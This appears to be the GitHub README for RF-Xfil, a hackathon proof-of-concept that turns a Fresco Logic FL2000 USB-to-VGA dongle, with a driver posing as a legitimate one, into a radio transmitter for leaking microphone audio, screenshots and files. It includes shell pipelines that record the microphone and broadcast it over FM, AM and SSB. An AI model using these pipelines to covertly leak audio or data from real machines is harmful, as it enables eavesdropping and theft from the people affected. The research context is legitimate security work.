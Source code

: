 # RF-Xfil | Prototype Toolkit for Data Exfiltration over Radio Frequencies
## Started by Jie Feng, Ragul & Andre Dec 2018 @ HackSmith v2.0

![HackSmith v2 Award](misc/HackSmith_Award.jpg)

Imagine your dongle (of which many modern devices depend on) is exfiltrating information over RF! Thats exactly the Proof-Of-Concept we managed to showcase at HackSmith v2 over the 8-9 Dec 2018 weekend.

By writing "simulated malicious" code masquerading as the device driver for a inexpensive off the shelf USB-to-VGA dongle based off the infamous Fresco Logic FL2000 chipset, we were able to exfiltrate not only the audio from the victim laptop's microphone and SSTV of a screenshot, but also built modulation (inspired by fax and work done by romanz/amodem) robust enough to transfer screenshots and any arbitary files.

Demodulation code to be used with generic inexpensive RTL-SDRs is also in here.

We feel that more people should take an active interest in & do research into electronics & RF.

Lets see what other overpowered embedded devices can be used to do mindblowing things.


### Dependencies
osmo-fl2k
CSDR
Liquid DSP


### Installation

1. Install Dependencies required
2. run autoinstall.sh
```
./autoinstall.sh
```


### Advanced Installation

Obtain fl2k sources from [osmo-fl2k](https://osmocom.org/projects/osmo-fl2k/wiki)
```
git clone git://git.osmocom.org/osmo-fl2k.git
mkdir osmo-fl2k/build
cd osmo-fl2k/build
cmake ../ -DINSTALL_UDEV_RULES=ON
make -j 3
sudo make install
sudo ldconfig
```


### Usage

figure out your microphone
```
pacmd list-sources | grep alsa_input
        name: <alsa_input.pci-0000_00_1f.3.analog-stereo>
```

figure out your sound output
```
pacmd list-sources | grep name | grep monitor
        name: <alsa_output.pci-0000_00_1f.3.analog-stereo.monitor>
```

Transmitting voice:
WBFM:
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | pv -B 256k | fl2k_fm - -s 130e6 -c 40e6 -i 44100
```
AM:
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | csdr convert_i16_f | csdr dsb_fc | csdr add_dcoffset_cc | csdr convert_f_i16 | src/fl2k_iq - -s 130e6 -c 40e6 -i 44100
```

SSB(USB):
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | pv -B 256k | fl2k_fm - -s 130e6 -c 40e6 -i 44100
```
